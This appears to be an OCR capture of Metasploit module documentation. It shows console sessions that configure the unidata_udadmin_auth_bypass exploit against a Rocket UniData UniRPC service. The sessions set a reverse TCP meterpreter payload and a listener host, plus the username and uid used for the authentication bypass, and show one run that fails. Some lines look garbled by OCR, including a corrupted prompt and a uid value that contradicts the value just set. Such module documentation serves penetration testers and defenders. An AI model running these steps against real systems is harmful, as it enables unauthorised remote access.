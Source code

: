 ```

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  10.0.0.179       yes       The listen address (an interface may be specified)
     LPORT  4444             yes       The listen port

  Exploit target:

     Id  Name
     --  ----
     0   Default

  View the full module info with the info, or info -d command.

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

  [*] Started reverse TCP handler on 10.0.0.179:4444 
  [*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
  [+] 10.0.0.198:31438 - The target is vulnerable.
  [*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
  [*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / fake:0:1000
  [-] 10.0.0.198:31438 - Exploit failed: UncaughtThrowError uncaught throw "UniRPC server returned an error code: UVE_BAD_LOGINNAME"
  [*] Exploit completed, but no session was created.
```

### Version 8.2.4 with non-root user

```
  msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
  [*] Using configured payload linux/x64/meterpreter/reverse_tcp

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST 10.0.0.179
  LHOST => 10.0.0.179

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
  RHOST => 10.0.0.198

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
  VERBOSE => true

  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_USERNAME postfix
  UNIRPC_USERNAME => postfix
  msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_UID 89
  UNIRPC_UID => 89
  msf6 exploit(linupostfix/misc/unidata_udadmin_auth_bypass) > show options

  Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

     Name             Current Setting  Required  Description
     ----             ---------------  --------  -----------
     RHOSTS           10.0.0.198       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT            31438            yes       The target port (TCP)
     SRVHOST          0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
     SRVPORT          8080             yes       The local port to listen on.
     SSL              false            no        Negotiate SSL for incoming connections
     SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
     UNIRPC_GID       89               yes       gid to authenticate with (must not be 0)
     UNIRPC_UID       1000             yes       uid to authenticate with (must match the username)
     UNIRPC_USERNAME  postfix          yes       Username to authenticate with (must match the uid)
```